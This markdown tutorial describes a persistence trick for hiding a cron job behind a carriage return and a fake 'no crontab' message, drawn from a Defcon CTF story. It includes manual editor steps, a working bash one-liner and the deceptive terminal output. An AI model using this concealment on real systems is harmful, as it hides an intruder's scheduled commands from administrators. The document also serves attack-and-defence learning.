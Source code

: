 # Hide Crontab Contents with a Carriage Return

### What's is the tactic?

The contents of a crontab file can be hidden by inserting a carriage return character and a fake message. When a user's crontab is listed with `crontab -l`, the carriage return character will be interpreted so the the message will be displayed instead of the scheduled task. This is a simple trick which can be used to maintain persistence.

### Where did this come from?

This maneuver comes straight from [@tylerni7](https://twitter.com/tylerni7)'s mouth in [epsiode 43](https://darknetdiaries.com/episode/43/) of [Darknet Diaries](https://darknetdiaries.com/). In this episode, Tyler is describing PPP's participation in one of Defcon's annual attack-and-defend CTF events. During this event, Tyler's team knew that an adversary had gained access to one of their machines and was exfiltrating the flag. They thought the adversary was accomplishing this through a cron job but when they listed the jobs with `crontab -l` they saw the message `no crontab for [user]`. After seeing this message they assumed the data was being exfiltrated a different way and moved on.

Later they found out that there _was_ a cron job but that the adversary had included a carriage return character with a phony 'no crontab' message in the crontab. This caused the `crontab -l` command to display the adversary's message instead of the cron job. 

### Why does this work?

Some Linux binaries (like `cat`, `head`, `tail`, and `nl`) interpret control characters and others (`less`,`more`) display or ignore them:
```
root@kali:# echo -e '1\r2' > cr
root@kali:# cat cr
2
root@kali:# head cr
2
root@kali:# tail cr
2
root@kali:# nl cr
2    1  1
root@kali:# less cr
1^M2
root@kali:# more cr
1
```

`crontab -l` treats the control characters the same way that `cat` and `head` do: `crontab -l` interprets the carriage return as an instruction and moves the cursor to the front of the line.

### How do we execute this?

**Manual execution:**
1. Edit the current user's crontab: `crontab -e`
1. Delete the preamble:
	* nano:
		1. `Ctrl`+`Shift`+`6` to select the first line of the preamble.
		1. Move cursor with down arrow key until the final line.
		1. `Ctrl`+`K` to cut/delete the selected text.
	* vi/vim:
		1. Issue command `23dd` from the first line to delete the first 23 lines (length of the preamble).
1. Insert the scheduled task with a trailing semicolon: `* * * * * touch /tmp/1;`
1. Insert the carriage return:
	* nano: `Alt`+`V` then `Ctrl`+`M`.
	* vi/vim: `Ctrl`+`V` then `Ctrl`+`M`.
1. Write the display message that says there are is crontab: `no crontab for [user]`
1. Add sufficient whitespaces after the message to completely hide the cron job. The formula for the minimum number of whitespace is: length of cron job - 14 - length of user name.

When finished the crontab file will contain the following:
```
* * * * * touch /tmp/1;^Mno crontab for root    
```

**Bash one-liner:**
```
cc="* * * * * touch /tmp/1" ; ct=$(printf "$cc;\rno crontab for $USER%*s" $(expr length "$cc" - 14 - $(expr length $USER))) ; echo "$ct" | crontab -
```

### What does the defender see?
```
root@kali:# crontab -l
no crontab for root    

root@kali:# cat /var/spool/cron/crontabs/root 
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on [redacted])
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
no crontab for root;    
```